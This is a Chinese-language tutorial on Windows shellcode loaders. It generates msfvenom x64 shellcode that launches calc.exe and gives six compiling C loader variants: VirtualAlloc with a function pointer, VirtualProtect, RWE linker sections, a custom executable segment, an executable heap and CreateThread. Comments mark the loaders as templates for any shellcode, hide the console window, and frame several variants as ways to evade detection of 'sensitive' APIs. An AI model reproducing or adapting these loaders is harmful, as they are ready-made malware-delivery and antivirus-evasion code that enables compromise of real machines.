# 1.shellcode

本shellcode功能为运行计算机

```
msfvenom -p windows/x64/exec CMD=calc.exe -f c > shellcode.c

unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

# 2.指针运行

## 2.1 申请内存

### 网传版本

```c_cpp
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

unsigned char sc[] ="\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
void main()
{
 LPVOID addr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT | MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
 if (addr == NULL) {
  return;
 }
 memcpy(addr, sc, sizeof(sc));
 ((void(*)())addr)(); // addr强转成函数指针 , 加() , 调用函数 , 运行这块内存中的shellcode代码
}
```

`(void(*)()) `是一个函数指针类型的强制转换, 该函数指针指向一个没有参数且返回值类型为void的函数，也就是说这行代码将 addr 的地址转换为一个函数指针，然后调用该指针所指向的函数。



## 2.2修改内存属性

### 优化版本

首先分析 , VirtualAlloc() 这行代码有必要有吗 , 实际也没有必要 , 因为shellcode本身 , 那就是那个字符串它就会在内存空间里面存着 , **你不需要单独在程序中又使用代码分配内存 , 去保存它**

那我们把不必要的代码都删了

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

unsigned char sc[] ="\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"; // 此处放你的shellcode
void main() {
 ((void(*)())sc)();
}
```



**那shellcode能执行吗 , 不能 , 为什么 , 因为内存本身是有属性的 , 默认保存数据的内存是不可执行的 , 只有读取写属性 , 如果有办法更改这块内存的属性为可执行的 , 那么shellcode是不是就可以正常的执行了**

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

unsigned char sc[] ="\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"; // 此处放你的shellcode


int main() {
    DWORD oldProtect = 0;
    // 修改数据内存属性为可执行
    VirtualProtect(sc, sizeof(sc), PAGE_EXECUTE_READWRITE, &oldProtect);
    // 把这个内存的数据转成指针函数, 函数()调用 , 执行shellcode代码 , 不能执行就很奇怪
    ((void(*)())&sc)();
}
```



## 2.3修改data段属性

再优化版本

修改内存属性不但可以使用 VirtualProtect api函数, 还可以在程序编译的时候修改内存段的属性 , 这样可以**规避使用VirtualProtect这个敏感api函数**操作了。默认全局变量是存放在data段, 修改成可执行即可。

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
#pragma comment(linker, "/section:.data,RWE")//设置 data段可读可写可执行

unsigned char sc[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
int main() {
    ((void(*)()) & sc)();
}
```

## 2.4新增数据段

除了修改data段的内存属性, 还可以新增一个段, 设置为可执行的属性

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

#pragma data_seg("vdata")
unsigned char sc[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
#pragma data_seg()
#pragma comment(linker,"/SECTION:vdata,RWE")
int main() {
    ((void(*)()) & sc)();
}
```

这段代码是用于在 Windows 平台上创建一个特殊的数据段（segment）并在其中存储一些二进制数据。

1.`#pragma data_seg("vdata")` : 这是一个编译器指令，用于告诉编译器将接下来的数据放置在名为 
"vdata" 的特殊数据段中。这个数据段是一个自定义命名的段，用于存储一些特殊的数据。
2. `#pragma data_seg()` : 这个指令告诉编译器停止将数据放置在之前定义的特殊数据段中，即 
"vdata"。
3. `#pragma comment(linker,"/SECTION:vdata,RWE")` : 这是一个链接器指令，告诉链接器将 "vdata" 
段标记为可读（Read）、可写（Write）、可执行（Execute）。这是为了确保在运行时可以修改
这个段的内容，通常用于实现一些动态代码生成或者代码注入的技术

## 2.5通过堆加载

除了通过链接器修改数据段的内存属性外，还可以通过HeapCreate api获取一个具有执行权限的堆，并在其中分配一块内存将其地址赋给shellcode，也是一种规避VirtualAlloc，VirtualProtect api的一种实现方法，通过指针运行

```c_cpp
#include <windows.h>
#include <stdio.h>

#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")

unsigned char sc[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

void main() {
    //之后创建一个具有执行权限的堆，用于存储shellcode
    HANDLE HeapHandle= HeapCreate(HEAP_CREATE_ENABLE_EXECUTE,sizeof(sc),0);
    //在创建的堆中分配一块内存，并将其地址赋给buffer
    char* buffer = (char*)HeapAlloc(HeapHandle,HEAP_ZERO_MEMORY,sizeof(sc));
    //将shellcode复制到buffer指定的内存中
    memcpy(buffer,sc,sizeof(sc));
    //将buffer指向的内存地址强制转换成为一个函数指针，并调用该函数，执行shellcode
    ((void(*)()) buffer)();
}
```



# 3.创建线程运行

创建线程运行

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

unsigned char sc[] =  "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
void main() {
    // 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
    LPVOID addr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT | MEM_RESERVE,
   PAGE_EXECUTE_READWRITE);
    // 申请失败 , 退出
    if (addr == NULL) {
        return;
    }
    // 把shellcode拷贝到这块内存
    memcpy(addr, sc, sizeof(sc));
    // 创建线程运行
    HANDLE hThread = CreateThread(NULL,
    NULL,
    (LPTHREAD_START_ROUTINE)addr,
    NULL,
    NULL,
    0);
    // 等待线程运行
    WaitForSingleObject(hThread, -1);
    // 关闭线程
    CloseHandle(hThread);
}
```

